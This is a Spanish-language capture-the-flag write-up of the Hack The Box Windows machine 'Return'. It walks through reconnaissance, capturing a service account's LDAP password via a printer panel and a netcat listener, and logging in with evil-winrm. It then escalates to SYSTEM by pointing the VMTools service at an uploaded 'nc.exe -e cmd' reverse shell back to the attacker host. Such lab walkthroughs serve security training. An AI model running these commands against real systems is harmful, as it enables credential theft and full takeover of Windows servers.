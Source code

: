 ```yaml
---
title: 'CTF - Return WriteUp'
date: '2022-02-11'
tags: ["CTF", "Windows", "ServerOperatorGroupAbusing", "ServiceConfigurationManipulation", "#Import 2022-12-20 21:06"]
draft: false
authors: ['default']
summary: Estamos ante una máquina Windows Esto es algo que deducimos una vez hacemos un Ping para comprobar 
---
```


Estamos ante una máquina **Windows**. Esto es algo que deducimos una vez hacemos un Ping para comprobar la conexión que tenemos con ella.


```
❯ ping 10.10.11.108 -c 1
PING 10.10.11.108 (10.10.11.108) 56(124) bytes of data.
64 bytes from 10.10.11.108: icmp_seq=1 ttl=127 time=43.2 ms
```
En la traza ICMP observamos que el TTL es de 127. Las maquinas Windows, en general, tienen un TTL configurado de 128 mientras que las máquinas Linux suelen tener un TTL de 64. En este caso, hasta llegar a la máquina pasamos por un nodo intermediario y por eso el TLL se descuenta en 1 unidad.

Tras un primer escaneo de puertos con NMAP, aparecen muchos de ellos abiertos. Además, en Windows este tipo de escaneos se suele demorar un poco más. Una vez escaneados los puertos abiertos con TCP Syn Scan, trato de sacar el máximo de información posible utilizando scripts básicos de reconocimiento de NMAP, para ver que información nos facilita.


```
nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49679,49682,49694,59851 -sCV -v 10.10.11.108 -oN targeted
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
135/tcp   open  msrpc         Microsoft Windows RPC
...
```
Hay un portal web abierto en el puerto 80 y parece un panel de administración de impresoras. Navegando un poco por la plataforma, veo un formulario de registro.

En estos casos donde el formulario te permite introducir una IP, una buena prueba es ponerte en escucha para ver que información te envía el servidor.

![](https://blog.ikerocio.com/content/images/2022/02/image-7.png)Cambio la dirección IP a mi equipo y me pongo en escucha en el mismo puerto con netcat.


```
❯ nc -lvp 389
listening on [any] 389 ...
10.10.11.108: inverse host lookup failed: Unknown host
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.108] 59872
0*`%return\svc-printer�
                       1edFg43012!!
```
Parece una contraseña. Me la guardo junto con el usuario *return\svc-printer*.

Además, recuerdo que el puerto RPC estaba abierto. Podría probar a conectarme con [Evil-WinRM](https://github.com/Hackplayers/evil-winrm).


```
❯ evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
Evil-WinRM shell v3.3
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents whoami
return\svc-printer
```
Y listo. Obtenemos la primera flag.


```
*Evil-WinRM* PS C:\Users\svc-printer\documents cat ../desktop/user.txt
6df0ae750542xxxxxxxxxxxxxxxxxxx 
```
El siguiente paso es buscar un método que nos permita escalar privilegios de Administrator. En este punto, un buen comienzo es enumerar los privilegios que dispone el usuario actual.


```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```
[SeLoadDriverPrivilege](https://www.tarlogic.com/es/blog/explotacion-de-la-directiva-cargar-y-descargar-controladores-de-dispositivo-seloaddriverprivilege/) tiene vulnerabilidades conocidas que se podrían explotar, pero voy a continuar buscando información sobre los grupos a los que pertenezco.


```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop net user svc-printer
...
Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```
Confirmamos que estamos en el grupo de *Remote Management Use* (por eso podemos conectarnos con WinRM) y además pertenezco a otros grupos. Me parece interesante *Server Operators* porque tal y como se visualiza en la web de [Microsoft](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators), vemos que tiene capacidad de parar y ejecutar servicios.

Esto es una vulnerabilidad que se puede explotar porque los servicios son capaces de ejecutar binarios en su arranque. De esta forma, sería interesante configurar un servicio que ejecutase *nc.exe* con el fin de entablar una reverse shell a mi máquina atacante.

Lo primero es traer a la máquina Windows el binario *nc.exe*.


```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop upload /home/iocio/Desktop/iocio/HTB/Return/content/nc.exe
```
Y trato de crear el nuevo servicio de Windows.


```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop sc.exe create reverse binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.21 443"
[SC] OpenSCManager FAILED 5:
Access is denied.
```
Parece que por alguna razón no podemos crear servicios. Vamos a intentar cambiar uno existente. Para ello, enumeramos aquellos que ya hay en ejecución.


```
*Evil-WinRM* PS C:\Users\svc-printer\documents services
Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc
```
Tras probar a cambiar varios y ver que no me permite modificarlos, doy con uno que sí.


```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop sc.exe config VMTools binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.21 443"
[SC] ChangeServiceConfig SUCCESS
```
A continuación, pongo en mi máquina netcat en escucha, paro el servicio y lo vuelvo a arrancar.


```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop sc.exe stop VMTools
*Evil-WinRM* PS C:\Users\svc-printer\Desktop sc.exe start VMTools
```
Recibimos la consola por el otro lado.


```
C:\Windows\system32whoami  
nt authority\system
C:\Windows\system32type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
f8fexxxxxxxxxxxxxxxxxxxxxxx
```
Obtenemos la flag y terminamos la máquina.

